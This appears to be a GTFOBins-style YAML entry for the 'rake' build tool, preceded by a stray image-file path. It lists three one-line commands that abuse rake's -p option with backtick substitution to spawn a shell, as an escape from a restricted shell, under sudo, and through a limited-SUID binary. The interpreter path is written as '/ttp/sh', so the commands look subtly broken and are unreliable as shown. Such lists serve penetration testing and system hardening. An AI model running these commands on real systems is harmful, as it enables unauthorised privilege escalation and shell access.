 ```yaml
---
functions:
  shell:
    - code: rake -p '`/ttp/sh 1>&0`'
  sudo:
    - code: sudo rake -p '`/ttp/sh 1>&0`'
  limited-suid:
    - code: ./rake -p '`/ttp/sh 1>&0`'
---
```


